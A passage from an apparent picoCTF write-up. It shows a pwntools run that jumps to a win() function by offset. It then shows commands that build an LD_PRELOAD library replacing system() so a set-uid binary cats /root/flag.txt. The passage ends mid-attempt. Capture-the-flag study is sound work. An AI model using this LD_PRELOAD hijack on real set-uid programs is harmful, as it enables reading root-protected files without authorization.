 Cool! The offset between both functions is actually `0x96` instead of `0x9E`. I also write a pwntool script to automatically calculate the absolute address of `win()` based on the given `main()` address and the known offset `0x96`.

```bash=
$ python3 exp.py rescued-float.picoctf.net 63978 0x96
[+] Opening connection to rescued-float.picoctf.net on port 63978: Done
b'Address of main: 0x5a941a53833d'
[*] Switching to interactive mode
Enter the address to jump to, ex => 0x12345: Your input: 5a941a5382a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_378c1259}

[*] Got EOF while reading in interactive
$
```

Flag: `picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_378c1259}`

### Hash-only-1
> Complete date: 2025-03-12

```
Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash.
If only it could just give you the actual content!
```

The problem provides a program *flaghasher* that print the MD5 sum of the flag stored in a root access file */root/flag.txt*. The *flaghasher* is a root-owned set-uid program so that it is able to read the content in */root/flag.txt*.

To solve this problem, I need to know "How does the program read the file" and tamper with such action.

I use `strings` to find some clues and see 2 impoprtant hints.

```bash=
# excerpt of output
$ strings flaghasher
system
/bin/bash -c 'md5sum /root/flag.txt'
```

The *flaghasher* calculate the MD5 sum of the flag via `system()` to run a shell command `md5sum`. Thus I get 2 approaches to exploit this problem

> First attempt: tamper with `system()`

In the first approach, I try to tamper with the `system()` function asking it not to run `md5sum` but `cat`. In this way, I can get the plaintext flag. A little challenge is the remote server doesn't provide any text editor so I write the code I need line by line using `echo`. Below is how I acheive it.

```bash=
# Prepare an implementation of tampered system function in system.c
ctf-player@pico-chall$ echo "#include <unistd.h>" > system.c
ctf-player@pico-chall$ echo "int system(const char *command) {" >> system.c
ctf-player@pico-chall$ echo 'char* args[] = {"/bin/bash", "-c", "cat", "/root/flag.txt", NULL};' >> system.c
ctf-player@pico-chall$ echo "execvp(args[0], args);" >> system.c
ctf-player@pico-chall$ echo "return 0;}" >> system.c

# Make function system to a shared library
ctf-player@pico-chall$ gcc -c system.c -o system.o
ctf-player@pico-chall$ gcc system.o -shared -o libsystem.so

# Using LD_PRELOAD to load such function before hand and run flaghasher
ctf-player@pico-chall$ LD_PRELOAD=./libsystem.so ./flaghasher
Computing the MD5 hash of /root/flag.txt.... 
```